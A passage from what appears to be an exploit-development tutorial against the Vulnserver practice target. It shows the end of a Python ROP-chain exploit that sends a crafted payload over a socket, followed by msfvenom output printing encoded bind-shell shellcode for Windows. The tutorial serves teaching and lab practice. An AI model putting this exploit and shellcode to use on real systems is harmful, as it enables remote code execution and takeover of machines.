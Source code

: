 ``` python
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    create_rop_chain() +
    # Shellcode. Will make EAX = 0xdeadbeef
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

And check it:

<div class="imgblock">

![ROP Chain](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331217/blog/vulnserver-trun-rop/run4_ayeb4j.gif)

</div>

Isn’t it wonderful? We were able to setup the call to `VirtualProtect()`
with the required parameters using `ROP`.

Let’s resume the execution to check if that worked:

<div class="imgblock">

![ROP Chain](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331216/blog/vulnserver-trun-rop/run5_mxyouz.gif)

</div>

Indeed\! Again, we were able to make `EAX = 0xdeadbeef` using a
traditional shellcode. We can now replace that mock shellcode with one
of our good ol' ones from `msfvenom`:

``` console
$ msfvenom -p windows/shell_bind_tcp -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of python file: 1823 bytes
SHELL =  b""
SHELL += b"\xda\xd3\xbe\xaa\x69\x45\x3a\xd9\x74\x24\xf4\x5a"
SHELL += b"\x2b\xc9\xb1\x53\x31\x72\x17\x03\x72\x17\x83\x68"
SHELL += b"\x6d\xa7\xcf\x90\x86\xa5\x30\x68\x57\xca\xb9\x8d"
SHELL += b"\x66\xca\xde\xc6\xd9\xfa\x95\x8a\xd5\x71\xfb\x3e"
SHELL += b"\x6d\xf7\xd4\x31\xc6\xb2\x02\x7c\xd7\xef\x77\x1f"
SHELL += b"\x5b\xf2\xab\xff\x62\x3d\xbe\xfe\xa3\x20\x33\x52"
SHELL += b"\x7b\x2e\xe6\x42\x08\x7a\x3b\xe9\x42\x6a\x3b\x0e"
SHELL += b"\x12\x8d\x6a\x81\x28\xd4\xac\x20\xfc\x6c\xe5\x3a"
SHELL += b"\xe1\x49\xbf\xb1\xd1\x26\x3e\x13\x28\xc6\xed\x5a"
SHELL += b"\x84\x35\xef\x9b\x23\xa6\x9a\xd5\x57\x5b\x9d\x22"
SHELL += b"\x25\x87\x28\xb0\x8d\x4c\x8a\x1c\x2f\x80\x4d\xd7"
SHELL += b"\x23\x6d\x19\xbf\x27\x70\xce\xb4\x5c\xf9\xf1\x1a"
SHELL += b"\xd5\xb9\xd5\xbe\xbd\x1a\x77\xe7\x1b\xcc\x88\xf7"
SHELL += b"\xc3\xb1\x2c\x7c\xe9\xa6\x5c\xdf\x66\x0a\x6d\xdf"
SHELL += b"\x76\x04\xe6\xac\x44\x8b\x5c\x3a\xe5\x44\x7b\xbd"
SHELL += b"\x0a\x7f\x3b\x51\xf5\x80\x3c\x78\x32\xd4\x6c\x12"
SHELL += b"\x93\x55\xe7\xe2\x1c\x80\x92\xea\xbb\x7b\x81\x17"
SHELL += b"\x7b\x2c\x05\xb7\x14\x26\x8a\xe8\x05\x49\x40\x81"
SHELL += b"\xae\xb4\x6b\xbc\x72\x30\x8d\xd4\x9a\x14\x05\x40"
```